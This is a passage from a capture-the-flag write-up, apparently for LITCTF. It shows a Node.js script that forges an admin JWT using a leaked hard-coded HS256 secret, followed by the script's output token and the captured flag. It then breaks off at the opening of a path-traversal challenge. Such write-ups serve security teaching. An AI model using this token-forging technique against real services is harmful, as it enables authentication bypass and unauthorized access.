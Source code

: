 ```bash
```

The takeaways from this code include, getting the hard-coded secret key `xook` and also how the server verifies the cookies. And **`/flag`**: Protected route that serves a flag if the token is valid and contains an `admin` claim or if the `name` field is present.
Since, we know the secret key, encryption algorithm [HS256] and also the method by which the server verifies the cookies, we can go ahead and create a exploit to create an admin cookie.

Here, I used JavaScript as Python had some issues, plus it’s easier as most of the code is given in the `index.ts` file.

```bash
const crypto = require('crypto');

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
).toString("base64").replace(/=/g, "");

const payload = { name: "abu", admin: true };
const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
  .toString("base64")
  .replace(/=/g, "");

const signature = crypto.createHmac('sha256', jwtSecret)
  .update(jwtHeader + '.' + jwtPayload)
  .digest('base64')
  .replace(/=/g, '');

const token = `${jwtHeader}.${jwtPayload}.${signature}`;
console.log(token);
```

```bash
└─$ node solve.js
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWJ1IiwiYWRtaW4iOnRydWV9.lP/6KBzWQ7oXP6AvKDBom0+cOQMDlgj9iVBGIohk9uE
```

Sending this back to the server, we get the flag.

Flag: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`

### **traversed**

I made this website! you can't see anything else though... right?? URL: https://litctf.org:31778/

Author: `halp`

Going to the site, we see this message.

<aside>
💡 Welcome! The flag is hidden somewhere... Try seeing what you can do in the url bar. There isn't much on this page…
